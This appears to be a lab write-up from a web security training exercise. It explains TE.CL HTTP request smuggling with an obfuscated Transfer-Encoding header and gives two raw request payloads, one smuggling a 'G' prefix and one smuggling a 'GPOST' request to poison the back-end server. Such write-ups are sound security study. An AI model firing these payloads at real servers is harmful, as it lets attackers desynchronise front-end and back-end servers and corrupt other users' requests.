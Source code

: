 If the response times out, it is because the front-end server is more lenient and accepts the malformed TE header and processes the junk body, while the back-end is more strict and rejects the TE header and processes the CL header instead:

![[TECL.png]]

>[!info]
>The difference could be a different in engines such as Nginx and Caddy or running different versions that deal with it differently.

To exploit it, smuggle a prefix using differential responses with a pair of requests with the first used to smuggle a prefix to poison the back-end and followed up with a normal request that is appended to the prefix:

![[GPOST Poison.png]]

Modify the attacker request by sending a chunk size of 1, followed by G, followed by 0 and two CRLFs as well as changing the content length to 3:

```http
POST / HTTP/1.1
Host: 0a7e00f204b1fcfae1bc6a7a00bb006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

1
G
0


```

After sending it, the back-end server is poisoned because the chunk size was 1, it thinks the message ends after the `1\r\n` and gets poisoned by the G and two CRLF:

![[G0POST U.png]]

To turn G0POST into GPOST, a new GPOST request should be made:

![[New GPOST.png]]

To do it, modify the attacker request to the following by removing the previous payload and copying the POST request and changing to a GPOST, removing the Host header. After the smuggled headers, make sure a CRLF is present and then in the body, add the parameter `x=` followed by a CRLF. Then, indicate the end of the chunk message to the front-end server to make sure it forwards the entire request body onto the back-end:

```http
POST / HTTP/1.1
Host: 0a7e00f204b1fcfae1bc6a7a00bb006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=1
0


```
